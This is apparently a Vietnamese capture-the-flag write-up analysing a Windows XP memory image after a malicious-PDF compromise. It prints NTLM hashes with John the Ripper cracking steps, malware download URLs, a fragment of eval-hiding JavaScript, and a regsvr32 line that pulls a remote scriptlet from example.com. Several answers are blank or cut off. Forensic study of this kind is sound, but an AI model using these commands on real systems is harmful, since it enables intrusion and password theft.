





vol2 -f Bob.vmem --profile=WinXPSP2x86 -g 0x80544ce0


### Q1 What was the local IP address of the victim's machine? {#3507b0eb61a48010905fcd9b3081370a}


Với winxp thì dùng connscan thay vì netscan


192.168.0.176


### Q2 What was the OS environment variable's value? {#3507b0eb61a480d5ab2cdc761cb0de66}


**Một số Biến môi trường cực kỳ quen thuộc trên Windows:**

- **`%USERNAME%`**: Tên của tài khoản đang đăng nhập (ví dụ: `Administrator` hoặc `Bob`).
- **`%TEMP%`** hoặc **`%TMP%`**: Đường dẫn trỏ tới thư mục chứa rác/file tạm (ví dụ: `C:\Users\Bob\AppData\Local\Temp`). Bạn có nhớ con mã độc `UWkpjFjDzM.exe` ở bài phân tích trước không? Nó đã đọc biến này để biết đường chui vào thư mục Temp đấy!
- **`%COMPUTERNAME%`**: Tên của máy tính.
- **`%PATH%`**: Danh sách các thư mục mà hệ điều hành sẽ tìm kiếm khi bạn gõ một lệnh trên Command Prompt mà không có đường dẫn cụ thể (ví dụ gõ `ping` thì nó tự biết tìm file `ping.exe` ở `C:\Windows\System32`)re

để tìm biến ta dùng envars | grep “OS”


Windows_NT


### Q3 What was the Administrator's password? {#3507b0eb61a48068b3e2f56489032028}


```c++
C:\Users\cuong_nguyen\Desktop\CyberDefender\temp_extract_dir>vol2 -f Bob.vmem hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9f8ac2eaebcd2e3a6f94d53c19803662:d95e38a172b3ddaa1ce0b63bb1f5e1fb:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:ad052c1cbab3ec2502df165cd25d95bd:::
```


ta dùng john the ripper


john —wordlist=/usr/share/wordlists/rockyou.txt hash.txt


john —show —format=nt


8846f7eaee8fb117ad06bdd830b7586c:70617373776f7264:NTLM


### Q4 Which process was most likely responsible for the initial exploit? {#3507b0eb61a480aea891e142b789d593}


AcroRd32.exe


### Q5 What is the extension of the malicious file retrieved from the process responsible for the initial exploit? {#3507b0eb61a48029aff9f5fcfdc902a3}


**Common Malicious Use Cases**

- **Squiblydoo (Remote Scriptlet Execution):** This is the most common technique, where `regsvr32` is used to load and execute a COM scriptlet (`.sct`) file from a remote website URL.
	- **Mechanism:** `regsvr32 /s /u /i:http://example.com scrobj.dll`
	- **Why it's dangerous:** The `/u` (uninstall) parameter ensures the script executes without actually registering anything, making it a fileless attack that leaves no trace in the registry and often bypasses allowlisting.
- **Malicious DLL Execution:** Attackers use `regsvr32.exe` to run malicious DLLs that they have dropped onto the system, often renaming them (e.g., to `.jpg` or `.txt`) to evade detection.
- **Persistence Mechanisms:** Attackers use `regsvr32` to register malicious COM objects to establish persistence on a system, ensuring their malware runs whenever a user logs in or the system boots.
- **Phishing & Payload Delivery:** Malicious Microsoft Office documents (Excel/Word) often use macros to launch `regsvr32.exe` to download and execute payloads, a technique seen in Qbot and Lokibot campaigns.

	**MITRE ATT&CK® +4**


```c++
C:\Users\cuong_nguyen\Desktop\CyberDefender\temp_extract_dir>strings.exe 1752.dmp | findstr ".pdf"
RDRMSG~1.PDFRdrMsgENU.pdf
regsvr32.exe /u /s "[ACTIVEXX]pdf.ocx"
regsvr32.exe /s "[ACTIVEXX]pdf.ocx"
```

- **`regsvr32.exe`** là một công cụ hợp pháp của Windows dùng để đăng ký (register) hoặc hủy đăng ký (unregister) các tệp thư viện `.dll` hoặc tệp ActiveX `.ocx` vào Registry.
- **Tham số** **`/s`** **(Silent):** Yêu cầu Windows thực hiện việc đăng ký này một cách **âm thầm, không hiển thị bất kỳ hộp thoại thông báo nào** cho người dùng.
- Kẻ tấn công cực kỳ thích dùng lệnh này (kỹ thuật _System Binary Proxy Execution_) để buộc hệ điều hành tải và chạy mã độc nằm trong file `.ocx` dưới một lớp vỏ bọc hoàn toàn hợp lệ.
- Chuỗi `[ACTIVEXX]` là một dạng **Biến môi trường nội bộ (Macro/Placeholder)**. Nó thường xuất hiện trong mã nguồn của các trình đóng gói mã độc (Packer) hoặc bộ cài đặt tự động (như WinRAR SFX, Inno Setup). Điều này chứng tỏ tiến trình **1752** chính là một con **Dropper**

	


### Q6 Suspicious processes opened network connections to external IPs. One of them starts with "2". Provide the full IP. {#3507b0eb61a4803fa11cd7ddca240656}





### Q7 A suspicious URL was present in process svchost.exe memory. Provide the full URL that points to a PHP page hosted over a public IP (no FQDN). {#3507b0eb61a48022924ac63f2f19e072}


Dùng malfind tìm ra 1752 và 1384, 888 (firefox), 232, 440, 244, 1132, 1116, 1108, 1756, 2024, 1836, 1628, 1460, 1244, 1100, 1040, 948, 880, 852, 700, 688, 644, 4


```c++
Process: svchost.exe Pid: 1384 Address: 0x80000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 29, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x00080000  4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00   MZ..............
0x00080010  b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00   ........@.......
0x00080020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00080030  00 00 00 00 00 00 00 00 00 00 00 00 f0 00 00 00   ................

0x00080000 4d               DEC EBP
```


Ta dump cái này dùng malfind -p 1384 -D .


Dùng strings lên toàn bộ file dump


http://193.104.22.71/~produkt/9j856f_4m9y8urb.php


### Q8 Extract files from the initial process. One file has an MD5 hash ending with "528afe08e437765cc". When was this file first submitted for analysis on VirusTotal? {#3507b0eb61a480148105dac083d326b1}


Ta dùng memdump process 1752 rồi dùng foremost tái tạo lại các file exe và dll


```c++
foremost -t pdf -i 1752.dmp -o Acrodump
```


Tính hash file là ra


f32aa81676c7391528afe08e437765cc


2010-03-29 19:31:45 


### Q9 What was the PID of the process that loaded the file PDF.php? {#3507b0eb61a480538519d5f7d7952e7d}


Ta có thể dùng handles để tìm file liên quan tới process nào


```c++
┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org/temp_extract_dir]
└─$ vol2 -f Bob.vmem --profile=WinXPSP2x86 -g 0x80544ce0 handles | grep -i "pdf.php"
Volatility Foundation Volatility Framework 2.6
0x81dfadf0   1752      0x1d4   0x120089 File             \Device\HarddiskVolume1\DOCUME~1\ADMINI~1\LOCALS~1\Temp\plugtmp\PDF.php
                                                                                                                               
```


1752


### Q10 The JS includes a function meant to hide the call to function eval(). Provide the name of that function. {#3507b0eb61a4804caafff165be4d4ab8}


Ở câu 8 ta biết file mã độc là 00601560.pdf. Ta dùng pdfid để phát hiện ra js ở đâu


```c++
──(cuong_nguyen㉿Kali)-[~/…/cyberdefenders.org/temp_extract_dir/output_Tue_Apr_28_23_26_49_2026/pdf]
└─$ pdfid 00601560.pdf 
PDFiD 0.2.10 00601560.pdf
 PDF Header: %PDF-1.3
 obj                    6
 endobj                 6
 stream                 1
 endstream              1
 xref                   2
 trailer                2
 startxref              1
 /Page                  1
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    1
 /OpenAction            0
 /AcroForm              0
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          0
 /XFA                   0
 /Colors > 2^24         0


```


Dùng pdf-parser


pdf-parser --search javascript 00601560.pdf
obj 11 0
Type:
Referencing: 1054 0 R


&lt;&lt;
/S /JavaScript
/JS 1054 0 R


Thấy trỏ đến object số 1054


`pdf-parser --raw -o 1054 -f 00601560.pdf -d mal.js`

- `-raw`: Bỏ qua các định dạng rườm rà của PDF, chỉ lấy dữ liệu thô.
- `o 1054`:
- `f`: (Filter) Tự động giải nén luồng dữ liệu (FlateDecode).
- `d mal.js`: (Dump) Lưu toàn bộ dữ liệu vừa giải nén vào file `mal.js`

Lỗi không thể parse được. Phải xuất ra file txt


pdf-parser --object 1054 -d raw_obj.txt 00601560.pdf


```c++
function aubpcKJR(ENzEszAz) {
    return (ENzEszAz) ? 1 : 0;
}
HNQYxrFW(eval, VIfwHVPz(xtdxJYVm, JkYBYnxN), BGmiwYYc);
```


### Q11 The payload includes 3 shellcodes for different versions of Acrobat reader. Provide the function name that corresponds to Acrobat v9. {#3507b0eb61a4801aba96f5bdcdb13aec}





**Answer:** XiIHG


### Q12 Process winlogon.exe hosted a popular malware that was first submitted for analysis at VirusTotal on 2010-03-29 11:34:01. Provide the MD5 hash of that malware. {#3507b0eb61a48008a4b5cc6f439b00f7}





066f61950bdd31db4ba95959b86b5269  process.0x81e5b2e8.0xa10000.dmp


### Q13 What is the name of the malicious executable referenced in registry hive '\WINDOWS\system32\config\software', and is variant of ZeuS trojan? {#3507b0eb61a4806dafdee6dbc1b0f489}


Ta dùng hivelist, lấy địa chỉ hive software rồi dumpregistry ra


Tìm thấy ở winlogon sdra64.exe





### Q14 The shellcode for Acrobat v7 downloads a file named e.exe from a specific URL. Provide the URL. {#3507b0eb61a48003b9b7f531a96cee7b}


[http://search-network-plus.com/load.php?a=a&st=Internet](http://search-network-plus.com/load.php?a=a&st=Internet) Explorer 6.0&e=2

- `x-msdownload` và `x-download`
- Microsoft đẻ ra cái nhãn `application/x-msdownload`. Khi IE nhìn thấy cái nhãn có chữ `x-msdownload` này, nó sẽ ngoan ngoãn tắt chức năng tự mở file đi, và hiện luôn hộp thoạ
	- **Tiền tố** **`x-`****:** Chữ `x-` đứng đầu mang ý nghĩa là "eXperimental" hoặc "non-standard" (không nằm trong chuẩn chính thức nhưng được tự định nghĩa và dùng rộng rãi).
	- **Mục đích thực sự:** Các máy chủ web (nhất là đồ của Microsoft ngày xưa) cấu hình `application/x-msdownload` hoặc `application/x-download` để **ép trình duyệt phải hiển thị hộp thoại "Save As..." (Tải xuống)** thay vì cố gắng mở file đó ngay bên trong trình duyệt.
- **Chuẩn thông thường:** Ví dụ, ảnh là `image/jpeg`, text là `text/html`. Đối với file thực thi (`.exe`), chuẩn quốc tế thường là `application/octet-stream`.

**=&gt; Ý nghĩa Forensics:** Khi bạn nhìn thấy dòng `Content-Type: application/x-msdownload` trong bộ nhớ, nó là bằng chứng thép cho thấy một file (có khả năng rất cao là file thực thi/mã độc) đã được cố ý ép tải xuống máy nạn nhân.


Như vậy để tìm file tải xuống ta grep thằng ms-download này


```c++

firefox1502[1].exe
HTTP/1.1 200 OK
ETag: "13c95c-4e0830-452be78c0ae80"
Content-Length: 5113904
Keep-Alive: timeout=5, max=97
Content-Type: application/x-msdownload
~U:administrator
URL 
http://search-network-plus.com/load.php?a=a&st=Internet%20Explorer%206.0&e=2

```


```c++
$STANDARD_INFORMATION
Creation                       Modified                       MFT Altered                    Access Date                    Type
------------------------------ ------------------------------ ------------------------------ ------------------------------ ----
2010-02-27 20:12:32 UTC+0000 2010-02-27 20:12:34 UTC+0000   2010-02-27 20:12:34 UTC+0000   2010-02-27 20:12:34 UTC+0000   Archive

$FILE_NAME
Creation                       Modified                       MFT Altered                    Access Date                    Name/Path
------------------------------ ------------------------------ ------------------------------ ------------------------------ ---------
2010-02-27 20:12:32 UTC+0000 2010-02-27 20:12:32 UTC+0000   2010-02-27 20:12:32 UTC+0000   2010-02-27 20:12:32 UTC+0000   Documents and Settings\Administrator\Local Settings\Temp\e.exe

```





### Q15 The shellcode for Acrobat v8 exploits a specific vulnerability. Provide the CVE number. {#3507b0eb61a480a6aca6db165a19fa66}


CVE-2008-2992


Dùng virustotal tính hash file mal.js


# Tổng kết {#3517b0eb61a4803e956bc5902e5930a4}


### Lưu ý {#3517b0eb61a480adb23de86bed0dc657}

- Về mặt thiết kế thì process windows chỉ có một file exe chính và các dll (trong ldrmodules đã thấy) và procdump chỉ trích xuất ra cái file chính đó thôi.
- Nhưng có thể có nhiều vì chúng đều là modules.
